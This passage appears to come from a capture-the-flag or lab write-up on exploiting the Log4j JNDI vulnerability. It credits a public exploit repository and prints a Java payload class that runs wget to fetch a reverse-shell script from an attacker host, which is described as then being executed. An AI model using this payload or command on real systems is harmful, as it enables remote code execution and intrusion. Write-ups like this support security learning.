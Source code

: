 ![Mistyped jndi](../../images/jndi-typo.png){: .image-process-crisp}

Once the `jndi` was properly typed, the response as handing and that's where we finally found that the exploit was possible.

The exploit that will be used is from David Bombal video, you can
find his repository here: <https://github.com/davidbombal/log4jminecraft>

Athough the default payload was not working because of special character issues, it was ran 2 times. Once to get the reverse shell on the machine and second to run the reverse shell.

First payload:

```java
public class Log4jRCE {

    static {
        
        try {
            java.lang.Runtime.getRuntime().exec("wget http://10.85.26.3:9001/rev.sh").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Log4jRCE(){
        System.out.println("I am Log4jRCE from remote222!!!");
    }
}
```

